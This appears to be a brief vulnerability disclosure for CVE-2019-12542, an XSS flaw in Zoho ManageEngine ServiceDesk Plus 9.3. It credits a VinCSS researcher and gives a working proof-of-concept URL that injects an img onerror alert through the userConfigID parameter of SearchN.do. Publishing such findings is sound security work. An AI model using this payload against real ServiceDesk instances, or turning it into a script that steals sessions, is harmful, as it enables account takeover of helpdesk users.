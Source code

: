 # CVE-2019-12542 Zoho ManageEngine ServiceDesk Plus 9.3 XSS vulnerability in SearchN.do
 Information Description: An issue was discovered in Zoho ManageEngine ServiceDesk Plus 9.3. There is XSS via the SearchN.do userConfigID parameter. 
 
**Author: Concobe of Tarantula Team - VinCSS (a member of Vingroup)** 

 # Payload
 domain/SearchN.do?searchText=a&SELECTEDSITEID=1&SELECTEDSITENAME=&configID=0&SELECTSITE=qc_siteID&submitbutton=Go&userConfigID=1"><img src%3da onerror%3dalert('XSS')>&selectName=Site

